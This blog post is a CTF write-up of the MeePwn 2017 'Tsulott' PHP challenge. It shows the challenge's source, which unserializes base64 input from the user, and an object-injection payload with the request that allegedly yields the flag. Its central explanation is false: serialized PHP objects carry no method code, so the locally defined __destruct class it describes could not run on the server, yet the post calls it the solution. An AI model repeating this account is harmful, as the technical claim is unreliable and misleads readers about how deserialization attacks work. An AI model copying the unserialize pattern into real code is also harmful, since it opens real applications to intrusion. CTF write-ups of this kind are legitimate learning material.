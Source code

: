 ```yaml
---
layout: post
title:  "Meepwn Tsulott"
date:	2017-09-28 14:19:38 +0200
author: foo
categories: ctf meepwn write-up
ref: meepwn-web
---
```


It's been a while since I last wrote something here, so maybe it's time to fix that...

---

**NOTE: If you want to try this challenge first by yourself,
[here](/assets/posts/2017-09-28-meepwn-web/code.tar.gz) are all the materials
needed to do it (note that you'll have to set up a server that supports PHP, as it won't
work otherwise).**

---

This is the write-up for the only challenge I completed on the
[MeePwn'17 CTF](https://ctftime.org/event/486). For some reason, the page kept telling me
to "stop spamming flags" while trying to submit the solution; so I simply gave up and
just got into something else.

Anyway, the first challenge I looked into was the one titled _Tsulott_. The webpage where
we have to get the flag from looks beautiful:

{% include image.html
	src="/assets/posts/2017-09-28-meepwn-web/first_recon.jpg"
	title="Webpage"
	alt="Webpage's first recon"
%}

The first thing to do is to look at the HTML, as most of this challenges are simple and,
usually, there are comments with clues. In this case, there's a comment at the end of the
file that makes us think that a debug option exists and someone forgot to disable it in
production:
```html
<center>
<font color='white'>-----------------------------------------------------------------------------------------------------------------------------</font>
<h3><font color='white'>Take code</font></h3><p>
<p><font color='white'>Pick your six numbers (Ex: 15 02 94 11 88 76)</font><p>
<form>
      <input type="text" name="gen_code" maxlength="17" /><p><p>
      <button type="submit" name="btn-submit" value="go">send</button>
</form>
</center>
<!-- GET is_debug=1 -->
</body>
```

Things like this can happen (not as obvious as this one, but still...), and we can take
advantage of someone's mistake by simply requesting `[endpoint]/?is_debug=1`. _Violà_,
here is the code of the server:

{% include image.html
	src="/assets/posts/2017-09-28-meepwn-web/code.jpg"
	title="Debug option set to 1"
	alt="Server's response when 'is_debug' is set to 1"
%}

Now we have to examine this new PHP code:

{% highlight php linenos %}
<?php
    class Object
    {
        var $jackpot;
        var $enter;
    }
?>


<?php

    include('secret.php');

    if (isset ($_GET ['input']))
    {
        $obj = unserialize (base64_decode ($_GET ['input']));

        if ($obj)
        {
            $obj->jackpot = rand(10,99).' '.rand(10,99).' '.rand(10,99).' '.rand(10,99).' '.rand(10,99).' '.rand(10,99);

            if ($obj->enter === $obj->jackpot)
            {
                echo "<center><strong><font color='white'>"
                    . "CONGRATULATION! You Won JACKPOT PriZe !!!"
                    . "</font></strong></center>"
                    . "<br><center><strong>"
                    . "<font color='white' size='20'>"
                    . $obj->jackpot
                    . "</font></strong></center>";

                echo "<br><center><strong><font color='green' size='25'>"
                    . $flag . "</font></strong></center><br>";

                echo "<center><img "
                    . "src='http://www.relatably.com/m/img/"
                    . "cross-memes/5378589.jpg' /></center>";
            }
            else
            {
                echo "<br><br><center><strong>"
                    . "<font color='white'>Wrong! True Six "
                    . "Numbers Are: </font></strong></center>"
                    . "<br><center><strong><font color='white'"
                    . " size='25'>"
                    . $obj->jackpot
                    . "</font></strong></center><br>";
            }
        }
        else
        {
            echo "<center><strong><font color='white'>- Something wrong,"
                . " do not hack us please! -</font></strong></center>";
        }
    }
    else
    {
        echo "";
    }
?>

<?php
    if (isset ($_GET ['gen_code']) && !empty ($_GET ['gen_code']))
    {
        $temp = new Object;
        $temp->enter = $_GET ['gen_code'];

        $code = base64_encode (serialize ($temp));

        echo '<center><font color=\'white\'>Here is your code,"
            . " please use it to Lott: <strong>'
            . $code. '</strong></font></center>';
    }
?>

<?php
    if (isset ($_GET ['is_debug']) && $_GET ['is_debug'] === '1')
    {
        show_source (__FILE__);
    }
?>
{% endhighlight %}



After a couple of minutes reading this code, we can see that there's a flaw on the way
the user input is handled, as it's not sanitized (on line 16). We can take advantage of
the unserialization to
[inject an object](https://www.owasp.org/index.php/PHP_Object_Injection), encoded in
base64 and passed using the parameter `input`.

This vulnerability works as follows:

  - We create a class, `Exploit`, that implements only one method: `__destruct ()`. This
	method will be called when the object is destroyed. The code inside it can be as
	simple as `var_dump ($flag);`.

  - An object, instance of the new class, is serialized and encoded in Base64. This will
	be the value of the parameter `input`.

  - The server recieves the Base64 encoded string and, after decoding it, calls the
	`unserialize ()` method. This method creates a new object with the information
	stored on this string. In this case, an instance of our new class is created and,
	upon its destruction, invokes the method `__destruct ()` that dumps the content
	of the flag.

Here's the exploit creation and the final result:
```php
$ php -a
Interactive mode enabled

php > class Exploit
php > {
php {	function __destruct ()
php {	{
php {		var_dump ($flag);
php {	}
php { }
php > echo base64_encode (serialize (new Exploit ()));
PHP Notice:  Undefined variable: flag in php shell code on line 5
NULL
Tzo3OiJFeHBsb2l0IjowOnt9
php >
```

When we request `/?input=Tzo3OiJFeHBsb2l0IjowOnt9`, we get the flag:


{% include image.html
	src="/assets/posts/2017-09-28-meepwn-web/flag.jpg"
	title="Exploit in action"
	alt="Server's response to the exploit, giving us the flag"
%}

Finnaly, the flag is `MeePwnCTF{__OMG!!!__Y0u_Are_Milli0naire_N0ww!!___}`.

I wish I could've tried the rest of the challenges; but, unfortunately, the page didn't
let me submit the flags. Nevertheless, I had fun with this challenge and learned
something, so at least I left the CTF with a good impression.
